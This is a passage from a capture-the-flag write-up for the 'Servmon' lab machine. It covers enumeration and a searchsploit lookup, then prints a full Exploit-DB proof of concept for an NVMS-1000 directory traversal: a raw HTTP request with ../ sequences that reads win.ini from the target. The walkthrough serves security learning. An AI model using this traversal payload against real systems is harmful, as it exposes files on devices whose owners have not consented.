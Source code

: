 # Servmon

This box is a hell because sometimes fails and the connection is horrible... I had to stop getting the root flag and retry some days after.

## Getting User Flag

The first thing we can see is an HTTP and HTTPS different services, and also a FTP server with anonymous access.

Starting with the HTTP one, it's named "NVMS 1000", and we can find a exploit for it using searchsploit:

```
kali@kali:~$ searchsploit nvms
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
NVMS 1000 - Directory Traversal                                           | exploits/hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification          | exploits/multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                        | exploits/multiple/dos/32193.txt
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~$ cat /usr/share/exploitdb/exploits/hardware/webapps/47774.txt 
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan Türle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1kali@kali:~$ 
```

